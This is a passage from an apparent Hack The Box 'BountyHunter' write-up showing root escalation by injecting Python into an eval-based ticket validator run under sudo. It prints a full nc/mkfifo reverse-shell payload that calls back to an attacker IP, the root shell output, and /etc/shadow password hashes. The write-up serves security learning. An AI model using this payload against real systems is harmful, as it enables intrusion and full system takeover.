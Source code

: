 
2. If I'm understanding correct, the calculations are passed to the eval-function. Instead of the calculation, we should be
able to inject python code and from there get code execution / reverse shell - as long as mod 7 = 4.

development@bountyhunter:/opt/skytrain_inc$ cat /dev/shm/ticket.md
  # Skytrain Inc
  ## Ticket to Root
  __Ticket Code:__
  **11+__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4488 >/tmp/f')
  ##Issued: 2021/05/12
  #End Ticket

development@bountyhunter:/opt/skytrain_inc$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
  Please enter the path to the ticket file.
  /dev/shm/ticket.md
  Destination: Root
  rm: cannot remove '/tmp/f': No such file or directory

[root:/git/htb/bountyhunter]# nc -lvnp 4488                                                                                       (master✱)
  listening on [any] 4488 ...
  connect to [10.10.14.4] from (UNKNOWN) [10.10.11.100] 49774
  # id
    uid=0(root) gid=0(root) groups=0(root)
  # cat /root/root.txt
    65d583629b3a54070bb6b26f1f08915f

  # cat /etc/shadow
    root:$6$S6D08T6aUYoEjKkH$aL7HVCr1HUlObuXmxFaXrmYgO3Bn0DwYnefBPI/ATF/At/0eplm9xBfsRoFo8NnlWFeIBzmBivxSfFtAUyfp9.:18793:0:99999:7:::
    development:$6$Icvq5CG9C3uVjeoJ$OCBFhlmlWWblwxPMj.LjvpuV49flCSkTiszqThdLwJ.eqWtOSgSAhjRXAzQTnQyn0tuYlYyQPbqupz4Jq85wM/:18793:0:99999:7:::



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


XXE Read File:
  https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#main-attacks

XXE PHP Wrappers:
  https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#utf-7
